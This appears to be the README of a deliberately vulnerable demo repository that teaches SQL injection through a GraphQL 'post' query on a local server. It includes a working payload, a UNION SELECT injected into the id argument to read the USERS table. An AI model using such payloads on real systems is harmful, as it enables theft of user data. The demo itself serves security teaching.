 # GraphQL SQL injection example

This repository provides a very simple example of SQL injection over GraphQL.

## Install and start

Checkout the code and run:
```
npm install
npm start
```

## Attack
Go on http://localhost:8080/graphql

Run the following query
```graphql
query {
  post(id: "1") {
    id
    title
    content
  }
}
```
This will return an element from the database
To perform an SQL injection that will fetch something from the USERS table, run
```graphql
query {
  post(id: "1 UNION SELECT * FROM USERS") {
    id
    title
    content
  }
}
```
